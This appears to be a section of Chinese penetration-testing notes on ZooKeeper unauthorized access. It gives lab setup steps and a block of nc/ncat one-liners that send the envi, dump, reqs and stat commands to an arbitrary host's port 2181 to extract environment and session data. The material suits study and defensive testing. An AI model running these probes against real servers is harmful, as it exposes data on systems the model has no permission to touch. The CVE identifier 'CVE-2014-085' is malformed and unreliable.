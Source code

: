 
## ZooKeeper
**ZooKeeper 未授权访问漏洞**
- 文章
    - [ZooKeeper 未授权访问漏洞](https://blog.csdn.net/qq_23936389/article/details/83826028)
    - [攻击大数据应用:ZooKeeper](http://www.polaris-lab.com/index.php/archives/41/)

- 搭建环境
    ```bash
    wget https://mirrors.tuna.tsinghua.edu.cn/apache/zookeeper/zookeeper-3.4.14/zookeeper-3.4.14.tar.gz
    tar -zxvf zookeeper-3.4.14.tar.gz
    cd zookeeper-3.4.14/
    cd conf/
    ```
    ```vim
    vim zoo.cfg  # 配置单机模式

    tickTime=2000
    dataDir=/tmp/zookeeper/data
    dataLogDir=/tmp/zookeeper/logs
    clientPort=2181
    ```
    ```bash
    cd ..
    bin/zkServer.sh start   # 启动
    bin/zkCli.sh -server 127.0.0.1:2181 #连接 server
    ```

- 利用
    ```bash
    echo envi|nc <ip> 2181 # 打印有关服务环境的详细信息
    echo dump |ncat <ip> 2181 # 列出未完成的会话和临时节点
    echo reqs |ncat <ip> 2181 # 列出未完成的请求
    echo ruok |ncat <ip> 2181 # 测试服务器是否运行在非错误状态
    echo stat |ncat <ip> 2181 # 列出关于性能和连接的客户端的统计信息

    ./zkCli.sh -server <ip>:port
    ```

**CVE-2014-085 ZooKeeper 信息泄露漏洞**
- 文章
    - [ZooKeeper信息泄露漏洞(CVE-2014-085)](http://www.voidcn.com/article/p-ebikooyk-oa.html)
